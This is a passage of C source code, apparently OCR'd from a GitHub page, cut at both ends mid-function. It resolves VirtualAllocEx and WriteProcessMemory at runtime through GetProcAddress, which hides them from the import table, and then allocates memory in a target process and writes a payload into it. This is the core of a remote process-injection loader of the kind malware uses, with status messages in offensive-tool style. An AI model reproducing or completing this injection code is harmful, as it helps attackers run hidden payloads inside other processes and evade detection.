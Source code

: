 ```c
    );

    _VirtualAllocEx = ( LPVOID( WINAPI *) 
    (
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD  flAllocationType,
        DWORD  flProtect    
    )) GetProcAddress( kernel32_dll_handle, "VirtualAllocEx" );

    if( NULL == _VirtualAllocEx )
    {
        // printf( "Could not resolve VirtualAllocEx!\n" );
        return 1;
    }

    target_process_allocated_memory = _VirtualAllocEx( target_process, NULL, payload_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE );

    if( NULL == target_process_allocated_memory )
    {
        // printf( "[!] Could not allocate memory!\n" );
        return 1;
    }

    // printf( "[+] Successfully allocated memory!\n" );

    //
    // WRITE TO ALLOCATED MEMORY
    //
    BOOL return_check = FALSE;

    BOOL( WINAPI * _WriteProcessMemory )
    (
        HANDLE  hProcess,
        LPVOID  lpBaseAddress,
        LPCVOID lpBuffer,
        SIZE_T  nSize,
        SIZE_T  *lpNumberOfBytesWritten    
    );

    _WriteProcessMemory = ( BOOL(WINAPI *)
    (
        HANDLE  hProcess,
        LPVOID  lpBaseAddress,
        LPCVOID lpBuffer,
        SIZE_T  nSize,
        SIZE_T  *lpNumberOfBytesWritten     
    )) GetProcAddress( kernel32_dll_handle, "WriteProcessMemory" );

    if( NULL == _WriteProcessMemory )
    {
        // printf( "Could not resolve WriteProcessMemory!\n" );
        return 1;
    }

    return_check = _WriteProcessMemory( target_process, target_process_allocated_memory, payload, payload_size, NULL );

    if( FALSE == return_check )
    {
        // printf( "[+] WriteProcessMemory returned false!\n" );
```